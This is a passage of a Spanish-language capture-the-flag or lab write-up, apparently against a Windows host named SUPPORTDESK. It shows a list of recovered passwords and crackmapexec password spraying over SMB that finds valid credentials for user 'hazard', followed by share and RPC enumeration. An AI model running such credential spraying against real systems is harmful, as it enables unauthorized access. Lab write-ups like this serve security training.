 - Estas son las contraseñas que tenemos.

```bash
➜  content cat creds.txt
Q4)sJu\Y8qz*A3?d
$uperP@ssword
stealth1agent
```

- Vemos que tenemos credenciales validas para el usuario hazard.

```
➜  content crackmapexec smb 10.129.116.26 -u users.txt -p creds.txt --continue-on-success
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

- Tenemos estos recursos compartidos a nivel de red pero no son interesantes.

```bash
➜  content crackmapexec smb 10.129.116.26 -u hazard -p stealth1agent --shares
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
SMB         10.129.116.26   445    SUPPORTDESK      [+] Enumerated shares
SMB         10.129.116.26   445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.129.116.26   445    SUPPORTDESK      -----           -----------     ------
SMB         10.129.116.26   445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.129.116.26   445    SUPPORTDESK      C$                              Default share
SMB         10.129.116.26   445    SUPPORTDESK      IPC$            READ            Remote IPC
```

- Vamos a enumerar por `RPC` ya que el puerto esta abierto.

- Pero no podemos.

```bash
➜  content rpcclient -U "hazard%stealth1agent" 10.129.116.26
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
```
